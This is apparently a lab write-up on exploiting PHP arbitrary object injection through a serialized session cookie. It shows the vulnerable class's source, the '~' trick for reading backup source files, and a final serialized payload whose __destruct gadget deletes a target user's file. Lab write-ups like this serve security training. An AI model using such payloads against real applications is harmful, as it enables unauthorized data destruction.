




# Arbitrary object injection in PHP
# Objective
This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized data.\
There is a file `CustomTemplate.php` in `/libs`.

||
|:--:| 
| *Session cookie* |
||
| *PHP file* |

## Exploitation

### Reading source code 
The `/libs/CustomTemplate.php` can be read by appending `~` to GET request.

||
|:--:| 
| *Source code of CustomTemplate.php* |

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

### Arbitrary object injection
In order to delete `morale.txt` from `/home/carlos` directory attacker can create request with extra `CustomTemplate` object that will overwrite target file thanks to magic method `__destruct`.

||
|:--:| 
| *Deletion of target file* |

Final payload:
```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```


